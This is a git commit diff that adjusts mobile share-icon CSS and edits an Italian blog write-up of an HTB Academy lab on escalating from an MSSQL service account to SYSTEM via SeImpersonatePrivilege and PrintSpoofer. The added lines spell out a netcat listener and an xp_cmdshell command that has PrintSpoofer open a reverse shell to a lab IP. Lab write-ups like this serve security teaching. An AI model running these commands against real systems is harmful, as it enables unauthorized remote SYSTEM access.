

SeImpersonate: link modulo HTB, motivazione PrintSpoofer, listener+esecuzione uniti, via arsenale/approfondimento; nuova copertina; icone social piu piccole su mobile
Claude-Session: https://claude.ai/code/session_01FB3ghLAwhiJrxPupN6Eiuj

diff --git a/assets/css/style.css b/assets/css/style.css
@@ -149,6 +149,7 @@ body.menu-open { overflow: hidden; }
 .share { display: flex; flex-wrap: wrap; gap: 12px; margin: 26px 0 8px; }
 .sh { width: 48px; height: 48px; border-radius: 50%; display: grid; place-items: center; color: #fff; border: 0; cursor: pointer; text-decoration: none; transition: transform .15s; }
 .sh:hover { transform: translateY(-2px); }
+@media (max-width: 600px) { .share { gap: 9px; } .sh { width: 38px; height: 38px; } .sh svg { width: 19px; height: 19px; } }
 .sh-li { background: #0a66c2; } .sh-fb { background: #1877f2; } .sh-x { background: #111; }
 .sh-wa { background: #25d366; } .sh-tg { background: #229ed9; } .sh-copy { background: var(--pill); color: var(--ink); }
 .sh-copy.ok { background: #2e7d32; color: #fff; animation: pop .3s ease; }

diff --git a/_posts/2026-10-28-seimpersonate-privilege-escalation-system.md b/_posts/2026-10-28-seimpersonate-privilege-escalation-system.md
@@ -13,7 +13,7 @@ A volte basta ottenere l'esecuzione di comandi nel contesto di un account di ser
 
 È un diritto legittimo, utilizzato da numerosi servizi Windows per operare temporaneamente con l'identità degli utenti autenticati. Tuttavia, quando viene combinato con un meccanismo di impersonazione sfruttabile, può consentire a un attaccante di passare da un account di servizio a `NT AUTHORITY\SYSTEM`.
 
-In questo laboratorio di HTB Academy ho ricostruito proprio questa catena:
+Per la dimostrazione ho utilizzato una macchina del modulo **[Windows Privilege Escalation di HTB Academy](https://academy.hackthebox.com/module/details/67)**, in cui ho ricostruito proprio questa catena:
 
 **Accesso MSSQL → esecuzione di comandi → identificazione di SeImpersonatePrivilege → PrintSpoofer → SYSTEM.**
 
@@ -102,26 +102,13 @@ La presenza di `Enabled` non garantisce che l'attacco funzionerà. Indica però 
 
 ## 4. La famiglia Potato: dal privilegio al vettore di escalation
 
-Nel mondo della Windows Privilege Escalation esiste una famiglia di tecniche comunemente conosciuta come **Potato**. Il principio comune è abusare di determinati meccanismi di autenticazione o comunicazione tra processi per ottenere un contesto di sicurezza più privilegiato. Gli strumenti, però, non sono tutti intercambiabili.
+Nel mondo della Windows Privilege Escalation esiste una famiglia di tecniche comunemente conosciuta come **Potato**. Il principio comune è abusare di determinati meccanismi di autenticazione o comunicazione tra processi per ottenere un contesto di sicurezza più privilegiato. Gli strumenti, però, non sono tutti intercambiabili:
 
-**JuicyPotato** è una delle tecniche storiche più conosciute. Sfrutta particolari comportamenti legati a COM/DCOM e NTLM per ottenere token privilegiati utilizzabili in un'escalation. La tecnica originale incontra limitazioni importanti a partire da Windows 10 versione 1809 e Windows Server 2019.
+- **JuicyPotato** — storico, sfrutta COM/DCOM e NTLM, ma **non funziona** da Windows 10 1809 / Windows Server 2019 in poi;
+- **RoguePotato** — supera alcune di quelle limitazioni con un meccanismo basato su RPC;
+- **PrintSpoofer** — sviluppato da itm4n, sfrutta il servizio **Print Spooler** di Windows e le **named pipe**; resta efficace anche sui sistemi recenti.
 
-**RoguePotato** è una tecnica successiva che affronta alcune delle limitazioni incontrate dai precedenti attacchi basati sull'impersonazione. Utilizza un meccanismo differente che coinvolge l'autenticazione e la comunicazione RPC.
-
-**PrintSpoofer** è lo strumento che utilizzo nel laboratorio. Sviluppato da itm4n, sfrutta un'interazione con il servizio Windows Print Spooler per ottenere una connessione privilegiata attraverso una named pipe. La sua efficacia dipende dalla configurazione del sistema e dalla disponibilità del meccanismo utilizzato.
-
-### Perché ho scelto PrintSpoofer?
-
-Nel laboratorio gli strumenti necessari erano già disponibili nella directory `C:\tools`. Ne verifico il contenuto attraverso SQL Server:
-
-```text
-SQL> xp_cmdshell dir C:\tools
-```
-
-![Contenuto della directory C:\tools con PrintSpoofer, JuicyPotato e RoguePotato](/blog/assets/img/seimpersonate/02-arsenal.png)
-*Figura 2 — Gli strumenti predisposti nell'ambiente HTB Academy. Il sistema del laboratorio utilizza Windows Server 2016; per questa dimostrazione scelgo PrintSpoofer.*
-
-La scelta non dipende semplicemente dal fatto che PrintSpoofer sia più recente. Voglio osservare una tecnica che utilizza le named pipe e il servizio di stampa per mostrare concretamente come l'impersonazione possa diventare un problema di sicurezza.
+Per questa dimostrazione ho scelto **PrintSpoofer** per un motivo preciso: è **affidabile anche sulle versioni moderne di Windows** (dove JuicyPotato è ormai tagliato fuori), è pulito e permette di mostrare con chiarezza *come* una named pipe e un servizio privilegiato trasformino `SeImpersonate` in codice eseguito come SYSTEM. Puoi scaricarlo dal [repository ufficiale di itm4n](https://github.com/itm4n/PrintSpoofer).
 
 ## 5. Come funziona realmente PrintSpoofer?
 
@@ -147,19 +134,19 @@ Arriviamo alla parte pratica. Nel laboratorio abbiamo già verificato tre condiz
 
 Resta da verificare se PrintSpoofer riesce effettivamente a sfruttare il vettore scelto.
 
-### Preparazione della sessione di laboratorio
-
-Per osservare il risultato dell'esecuzione privilegiata, nell'ambiente HTB Academy era stato predisposto un listener Netcat sulla macchina di testing:
+Avvio un **listener** sulla macchina d'attacco, in ascolto sulla porta 8443:
 
 ```bash
 sudo nc -lnvp 8443
 ```
 
-La dimostrazione originale utilizzava PrintSpoofer per avviare, nel contesto privilegiato ottenuto, un processo che stabiliva una sessione di ritorno verso il listener. La verifica tecnica dell'escalation, tuttavia, non dipende dal fatto di utilizzare una reverse shell: ciò che conta è dimostrare l'identità e il contesto del processo creato.
+Poi, dal contesto SQL, eseguo **PrintSpoofer** chiedendogli di aprire — col token SYSTEM impersonato — una reverse shell verso il listener:
 
-### Esecuzione di PrintSpoofer
+```text
+SQL> xp_cmdshell c:\PrintSpoofer.exe -c "c:\nc.exe 10.10.15.132 8443 -e cmd"
+```
 
-Dal contesto SQL viene eseguito PrintSpoofer con l'obiettivo di avviare un processo privilegiato. L'output restituito dallo strumento contiene due messaggi fondamentali:
+L'output dello strumento contiene due messaggi fondamentali:
 
 ```text
 [+] Found privilege: SeImpersonatePrivilege
@@ -167,16 +154,16 @@ Dal contesto SQL viene eseguito PrintSpoofer con l'obiettivo di avviare un proce
 ```
 
 ![Output di PrintSpoofer con il privilegio rilevato e CreateProcessAsUser() OK](/blog/assets/img/seimpersonate/03-printspoofer.png)
-*Figura 3 — PrintSpoofer individua SeImpersonatePrivilege e segnala che la creazione del processo è riuscita.*
+*Figura 2 — PrintSpoofer individua SeImpersonatePrivilege e segnala che la creazione del processo è riuscita.*
 
-Il primo messaggio conferma che il processo possiede il privilegio richiesto. Il secondo indica che la creazione del nuovo processo attraverso l'API Windows `CreateProcessAsUser()` è riuscita. È un risultato significativo, ma per verificare l'escalation dobbiamo controllare direttamente l'identità del processo ottenuto.
+Il primo messaggio conferma che il processo possiede il privilegio richiesto; il secondo che la creazione del nuovo processo tramite l'API Windows `CreateProcessAsUser()` è riuscita. Per verificare l'escalation controllo direttamente l'identità del processo ottenuto.
 
 ### Verifica finale: whoami
 
-Nella sessione di laboratorio eseguo `whoami` e `hostname`. Il risultato restituisce `nt authority\system` su `WINLPE-SRV01`.
+Sul listener arriva la shell. Eseguo `whoami` e `hostname`: la risposta è `nt authority\system` su `WINLPE-SRV01`.
 
 ![Sessione ottenuta nel laboratorio con output di whoami e hostname](/blog/assets/img/seimpersonate/04-system.png)
-*Figura 4 — La verifica finale conferma l'esecuzione nel contesto NT AUTHORITY\SYSTEM sul sistema WINLPE-SRV01.*
+*Figura 3 — La verifica finale conferma l'esecuzione nel contesto NT AUTHORITY\SYSTEM sul sistema WINLPE-SRV01.*
 
 Abbiamo così dimostrato che l'escalation è riuscita. All'inizio del laboratorio il nostro contesto di esecuzione era `nt service\mssql$sqlexpress01`; alla fine è `nt authority\system`.
 
@@ -260,8 +247,3 @@ La lezione non riguarda lo strumento, ma **il modo in cui Windows gestisce ident
 - [PrintSpoofer — Repository ufficiale di itm4n](https://github.com/itm4n/PrintSpoofer)
 - [Impacket — Repository ufficiale Fortra](https://github.com/fortra/impacket)
 - [Microsoft Sysinternals — Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
-
-<aside class="readalso">
-  <span class="readalso-k">Prossimo approfondimento</span>
-  <a href="#">Windows Access Token: come funzionano privilegi, impersonation token e integrity level</a>
-</aside>
